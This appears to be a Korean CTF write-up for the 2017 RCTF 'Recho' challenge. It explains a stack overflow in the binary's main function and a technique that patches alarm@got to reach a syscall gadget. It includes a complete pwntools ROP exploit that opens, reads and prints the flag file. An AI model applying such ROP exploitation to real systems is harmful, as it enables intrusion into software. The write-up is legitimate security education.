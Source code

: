 ```yaml
---
title: "2017 RCTF Recho"
date: 2020-1-3
ctf: RCTF
layout: post
published : false
---
```


64비트 바이너리가 주어진다.

```
Recho: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=6696795a3d110750d6229d85238cad1a67892298, not stripped
```

메인에서는 원하는만큼 크기를 정하고 그 크기만큼 입력받을 수 있다.

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char nptr; // [rsp+0h] [rbp-40h]
  char buf[40]; // [rsp+10h] [rbp-30h]
  int v6; // [rsp+38h] [rbp-8h]
  int v7; // [rsp+3Ch] [rbp-4h]

  Init();
  write(1, "Welcome to Recho server!\n", 0x19uLL);
  while ( read(0, &nptr, 0x10uLL) > 0 )
  {
    v7 = atoi(&nptr);
    if ( v7 <= 15 )
      v7 = 16;
    v6 = read(0, buf, v7);
    buf[v6] = 0;
    printf("%s", buf);
  }
  return 0;
}
```

flag라는 파일을 읽어오는 문제다. 근데 .data 영역에 flag라는 문자열이 존재했다.

flag라는 파일을 읽기 위한 함수가 딱히 존재하지 않았다. 그냥 syscall을 이용해서 orw해주면 되는 문제다.

근데 int 0x80이 바이너리 내에 존재하지 않는다. 나 같은 경우에는 alarm함수의 syscall을 이용했다.

![](https://user-images.githubusercontent.com/32904385/71731844-12db9880-2e89-11ea-83d5-b54405616f5b.png)

alarm+5 위치에 syscall이 존재했다. `add byte ptr [rdi], al ; ret` 가젯을 이용해서 rdi에 alarm@got를 넣어주고 al 값에 5를 넣어주고 alarm을 호출하면 syscall이 호출될 것이다. 이를 이용해서 orw를 해주면 된다.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
context.log_level = 'debug'
e = ELF('./Recho')
p = process('./Recho')
prdi = 0x00000000004008a3 # pop rdi ; ret
prax = 0x00000000004006fc # pop rax ; ret
add_rdi_al = 0x000000000040070d # add byte ptr [rdi], al ; ret
prsi_r15 = 0x00000000004008a1 # pop rsi ; pop r15 ; ret
prdx = 0x00000000004006fe # pop rdx ; ret
flag = 0x0000000000601058
syscall = e.plt['alarm']

# alarm+5 syscall
payload = 'A'*48
payload += 'realsung'
payload += p64(prdi) + p64(e.got['alarm'])
payload += p64(prax) + p64(0x5) + p64(add_rdi_al)

# sys_open(flag,0,0)
payload += p64(prdi) + p64(flag)
payload += p64(prsi_r15) + p64(0) + p64(0)
payload += p64(prdx) + p64(0)
payload += p64(prax) + p64(0x2) + p64(syscall)

# sys_read(3,bss,100)
payload += p64(prdi) + p64(3)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(0) + p64(syscall)

# sys_write(1,bss,100)
payload += p64(prdi) + p64(1)
payload += p64(prsi_r15) + p64(e.bss()) + p64(0)
payload += p64(prdx) + p64(100)
payload += p64(prax) + p64(1) + p64(syscall)

p.sendlineafter('server!\n',str(1000))
p.send(payload)

p.shutdown()
p.interactive()
```

